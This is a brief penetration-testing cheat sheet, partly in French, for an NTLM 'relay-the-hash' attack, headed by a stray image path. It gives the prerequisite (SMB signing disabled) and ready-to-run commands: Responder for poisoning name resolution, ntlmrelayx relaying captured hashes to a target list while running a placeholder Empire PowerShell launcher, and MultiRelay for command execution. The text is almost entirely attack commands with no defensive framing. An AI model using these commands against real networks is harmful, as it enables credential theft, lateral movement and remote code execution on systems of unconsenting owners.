 # Relay-the-hash
## prereqis: pas de smbsigning

python Responder.py -I <interface> -r -d -w

ntlmrelayx.py -tf targets.txt -c <insert your Empire Powershell launcher here>


# alternative: 
MultyRelay.py -t <cible> -u ALL -c command

